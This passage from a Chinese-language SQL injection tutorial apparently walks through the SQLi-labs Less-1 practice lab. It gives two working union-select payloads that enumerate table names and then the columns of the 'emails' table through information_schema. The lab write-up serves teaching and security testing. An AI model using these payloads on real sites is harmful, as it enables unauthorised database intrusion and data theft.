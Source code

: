 -   `group_concat()`函数：使数据在一列中输出
-   `information_schema.tables`数据源：存储了数据表的元数据信息，我们主要使用此项数据源中的`table_name`和`table_schema`字段

最终可以构造出 Payload 如下，可以获取到 emails，referers，uagents，users 四张表

```plain
http://127.0.0.22/Less-1/?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() %23
```

[![](assets/1707953831-c35fbae0a1110ba90ee559ef2d11da70.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204190202-d36cd1d4-c34c-1.png)

## 第六步 - 爆列名

基于表名使用`column_name`爆出列名，此时数据源为`information_schema.columns`，位置在`table_name='表名'(记得给表名加单引号)`

最终构造 Payload 如下，可以获取到 id，email\_id 两个字段

```plain
http://127.0.0.22/Less-1/?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails' %23
```

[![](assets/1707953831-973dbdcf1085630a75078e85a8944adb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204190241-ea79b91e-c34c-1.png)
